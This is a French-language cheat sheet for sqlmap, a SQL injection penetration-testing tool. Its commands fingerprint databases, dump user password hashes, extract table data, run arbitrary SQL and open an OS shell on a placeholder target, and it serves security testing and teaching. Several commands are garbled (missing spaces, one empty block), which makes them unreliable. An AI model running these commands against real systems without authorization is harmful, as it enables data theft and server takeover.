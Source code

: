 ﻿# SQLMAP
## COUCHE 7


### usurpation
### Escalade de privilège
### Dégradation de privilèges
### Divulgation des informations chiffrées
### Observation

#### ATTAQUE = SQL INJECTION
##### CONFIDENTIALITE
##### INTEGRITE
##### DISPONIBILITE

Description : sqlmap est un outil de test de pénétration open source qui automatise le processus de détection et d'exploitation des failles d'injection SQL et de prise de contrôle des serveurs de bases de données. Il est doté d'un puissant moteur de détection, de nombreuses fonctionnalités de niche pour le testeur de pénétration ultime et d'une large gamme de commutateurs allant de l'empreinte digitale de la base de données à la récupération de données à partir de la base de données, en passant par l'accès au système de fichiers sous-jacent et l'exécution de commandes sur le système d'exploitation via des connexions hors bande

Source : https://sqlmap.org/
https://cheat.sh/sqlmap


# Testez l'URL et les données POST et renvoyez la bannière de la base de données (si possible)

```
./sqlmap.py --url = "<url>" --data = "<post-data>" --banner  

```
# Analyser les données de la requête et tester | les données de la requête peuvent être obtenues avec burp

```
./sqlmap.py-r<request-file><options>   
```
# Empreinte digitale | beaucoup plus d'informations que la bannière
```
./sqlmap.py-r<request-file>--fingerprint   
```

# Obtenir le nom d'utilisateur, le nom et le nom d'hôte de la base de données
```


# Vérifiez si l'utilisateur est un administrateur de base de données
```
 ./sqlmap.py-r<request-file>--is-dba
```   

# Obtenir les utilisateurs de la base de données et les hachages de mot de passe
```
 ./sqlmap.py-r<request-file>--users –passwords
```    

# Énumérer les bases de données
```
 ./sqlmap.py-r<request-file>--dbs
```   

# Lister les tables pour une base de données
```
 ./sqlmap.py-r<request-file>-D < db-name> --tables
```     

# Autres commandes de base de données
```
 ./sqlmap.py-r<request-file>-D<db-name>--columns --schema –count
``` 
# Drapeaux d'énumération 
```
./sqlmap.py-r<request-file>-D<db-name>-T < table-name> -C < col-name> -U < user-name>
```                                           
# Extraire les données
```
 ./sqlmap.py-r<fichier-requête>-D<nom-base-de-données>-T<nom-table>-C<nom-colonne>--dump
```         

# Exécuter la requête SQL
```
 ./sqlmap.py-r<fichier-requête>--sql-query="<requête-sql>"
```   

# Ajouter/précéder des requêtes SQL
```
 ./sqlmap.py-r<request-file>--prefix="<sql-query>" --suffix = "<sql-query>"  
```  

# Obtenir un accès backdoor au serveur SQL | peut donner accès au shell
```
 ./sqlmap.py-r<request-file>--os-shell 
```
tldr:sqlmap

# sqlmap
# Détecter et exploiter les failles d'injection SQL.
# Plus d'informations : <https://sqlmap.org>.

# Exécutez sqlmap sur une seule URL cible :
``` 
python sqlmap.py -u "http://www.target.com/vuln.php?id=1"   
```

# Envoyer des données dans une requête POST (`--data` implique une requête POST) :
```
 pythonsqlmap.py-u"http://www.target.com/vuln.php" --data = "id=1"
```    

# Modifiez le délimiteur de paramètres (& est la valeur par défaut) :
``` 
pythonsqlmap.py-u"http://www.target.com/vuln.php"--data="query=foobar;id=1" --param-del = ";"
```
      
# Sélectionnez un `User-Agent` aléatoire dans `./txt/user-agents.txt` et utilisez-le :
```
 pythonsqlmap.py-u"http://www.target.com/vuln.php"--random-agent    
```
# Fournir les informations d'identification de l'utilisateur pour l'authentification du protocole HTTP :
```
 pythonsqlmap.py-u"http://www.target.com/vuln.php"--auth-type Basic --auth-cred "testuser:testpass"
```


